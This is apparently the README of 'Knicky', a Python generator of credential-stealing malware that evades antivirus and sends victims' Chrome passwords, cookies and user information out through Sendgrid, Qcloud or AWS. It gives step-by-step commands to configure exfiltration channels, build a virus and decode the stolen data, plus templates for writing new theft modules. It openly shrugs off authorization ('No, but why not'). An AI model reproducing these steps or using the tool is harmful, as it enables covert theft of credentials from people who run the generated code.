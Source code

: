 # Knicky
 ![How it works](https://travis-ci.org/shouc/knicky.svg?branch=master)
Yet another module-based static virus generator 


## Little FAQ
**WTF is static virus?**  
Static virus is the virus/trojan that has already had all its functions been defined and would not be controlled by server side. Instead, it would only send critical information (Chrome password, etc.) slowly and predictedly to server side using legitimate third-party services (Sendgrid, AWS, Qcloud, etc.).  
 ![How it works](pics/howitworks.png)

**Why use it?**  
Because the virus generated could always bypass the anti-virus softwares. If not, then make some modification on the modules you are using. And you can also use it in DMZ!  

**Am I authorized to hack others' computer?**  
No, but why not.


## Definition
You should know these conventions to understand following content
* Module - components that are used to return critical information
* Messenger - components that are used to communicate with you and the hacked machine
* Project - each specific virus created

## Installation
Please use Python 2.7ish!
```bash
$ git clone https://github.com/shouc/knicky.git && cd knicky
$ python -m pip install -r requirements/main.txt --user
```
## Small Examples

#### 1. Initialize the Module

##### Using Sendgrid
Note: *See the help information about such module*
```bash
$ python cli.py sgUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information*
```
$ python -m pip install -r requirements/sendgrid.txt --user
$ python cli.py sgUpdate\
    --user <receiving email address>\
    --password <receiving email password>\
    --server <receiving email pop3 server>\
    --apiKey <sendgrid api key>\
    -b True
```

##### Using Qcloud COS (腾讯云储存)
Note: *See the help information about such module*
```bash
$ python cli.py qcloudUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information after creating a COS bucket in the panel*
```
$ python -m pip install -r requirements/qcloud.txt --user
$ python cli.py qcloudUpdate\
    --secretID <SecretID>\
    --secretKey <SecretKey>\
    --region <BucketRegion>\
    --bucket <BucketName>\
    -b True
```

#### 2. Have an Overview on Components
See all information about Messenger (components that are used to communicate with you and the hacked machine)
```
$  python cli.py getSendInfo
```
See all information about Module (components that are used to return critical information)
```
$  python cli.py getModuleInfo
```
#### 3. Create a Virus
Note: *By doing so, you created a virus that could send the information of user (userInfo) and Chrome password (chromePassword) of the machine that executed the generated code to you by Qcloud(qcloud)*
```
$ python cli.py createProj userInfo+chromePassword qcloud
```
#### 4. Receive Information
Note: *The information sent to you is encrypted by base64 and you could use following command to decrypt*
```
$ python cli.py listProj
$ python cli.py receiveInfo <project name from foregoing command>
```


## Develop Module

Modules are located at `/module` folder and ends with `.py`.

A module's code should include two functions and several constant:

```python
__sys__ = ["Windows"] # Specify the platform supported
__name__ = "chromeCookies" # Specify the name of messenger
__desc__ = "Retrieve all Cookies of Google Chrome" # Specify the description of messenger


def send():
    """
    Generate the information that is sent to attacker's computer
    This is executed on client side
    :return: plain content need to send to attacker's computer
    """
    pass

```


## Develop Messenger

Messengers are located at `/messenger` folder and ends with `.uninit`.

A messenger's code should include two functions and several constant:

```python
__sys__ = ["Windows", "Darwin", "Linux"] # Specify the platform supported
__name__ = "AWS" # Specify the name of messenger
__desc__ = "Use AWS" # Specify the description of messenger


def send(_content, _module, _projName):
    """
    How the information is sent to attacker's computer (e.g. sending email)
    This is executed on client side
    _content: the content need to send
    _module: the module that created this content
    _projName: the name of this project
    """
    pass

def receive(_range, _projName):
    """
    How the information is received by attacker's computer (e.g. receiving email)
    This is executed on attacker side
    _range: the amount of record attacker needs
    _projName: the name of this project
    :return: [{'_content': the content received
              '_projName': the name of this project
              '_byModule': the module created this content
              '_from': [Optional] the user identifier of this content (e.g. username of computer)
              '_id': [Optional] the identifier of this content
              '_date': the time},]
    """
    pass
```

As different user has different credential for messenger (e.g. different API key for sendgrid), you can specify a configuration in `/config.py` and use `"!@knicky.xxxx@!"` to replace the original credential so that update function could understand.

For example,

```python
# config.py
class xxxUpdate(updateBase):
    def __init__(self, xxAPIKey="xxx", yyAPIKey="yyy", bypass=False):
        updateBase.__init__(self)
        updateBase.stop(self)
        self.bypass = bypass
        self.fileName = "messenger/xxx.uninit"
        self.updateList = [
            {"xxAPIKey": "secretID", "after": xxAPIKey, "desc": ""},
            {"yyAPIKey": "secretID", "after": yyAPIKey, "desc": ""},
        ]
```

Then, all `"!@knicky.xxAPIKey@!"` and `"!@knicky.yyAPIKey@!"` are replaced to what user specified in CLI.